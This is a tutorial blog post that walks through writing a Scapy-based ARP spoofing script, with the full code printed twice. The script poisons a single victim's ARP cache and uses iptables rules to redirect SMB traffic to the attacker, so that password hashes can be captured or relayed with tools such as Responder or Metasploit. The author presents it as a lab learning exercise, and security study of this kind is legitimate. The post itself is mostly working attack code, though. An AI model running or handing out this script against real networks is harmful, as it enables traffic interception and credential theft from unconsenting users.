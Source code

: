 ```yaml
---
published: false
---
```

## HowTo ARP Spoof Using Scapy

Sure there are already some pretty good security tools that can pull off ARP spoofing: Ettercap, Bettercap, etc. This post details what I learned when to do it myself using Scapy, in the hopes that I can help someone else who's also trying to learn how to use Scapy. Man In The Middle (MITM) attacks against a whole subnet frequently cause a Denial of Service (DoS) condition. In this case, I want to ARP spoof a single victim and redirect any SMB traffic to my attacker system so that I can capture or relay hashes. 

In my lab, my victim was running a fully patched Windows 10 OS. I monitored my arp table using 'arp -a'. In the interest of saving some time and not having to run an extended ARP spoof attack, I cleared my victim's ARP cache using 'arp -d *' before starting the attack.

First, our imports and argument parser. Using sys.argv[] for command line arguments is just clunky. I like to use argparser even in really short scripts that accept cli arguments.

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()
```

Now we need to set some iptables rules and also enable IP forwarding. The first iptables rule prevents the kernel from seeing traffic that didn't originate from the kernel and sending a RST, effectively killing the connection. The ip_forward is necessary, otherwise you'll DoS the victim that you're attacking because your system will intercept their comms but won't forward traffic on to the destination. The final iptables argument is required to foward any SMB traffic on to our attacker's IP address on port 445 so that we can either capture the hash and crack it, or relay it on using tools such as Metasploit, Responder, or other SMB relay tools.

```python
# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

This section creates the variables required for ARP. Hopefully I've commented the code well enough as-is to make it self-explanatory. The reason why you need a victim IP and a target IP is that in this case we're targetting a single victim and don't want to risk making ourselves known and risk DoS'ing a whole subnet. Very frequently a MiTM attack causes service disruptions, so I don't want to target a whole subnet. The target IP is either going to be the system that the victim is communicating with on the same subnet, or the default gateway (router) if on a different network subnet. Adjust the send arguments 'inter' and 'count' if you want to spoof more or less than a count of 60 here, which works out to one request per second for 60 seconds.

```python
# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)
```

Finally, we're going to clean up those iptables rules and reset IP forwarding to the default.

```python
# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

Complete code:

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()

# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))

# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)

# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```
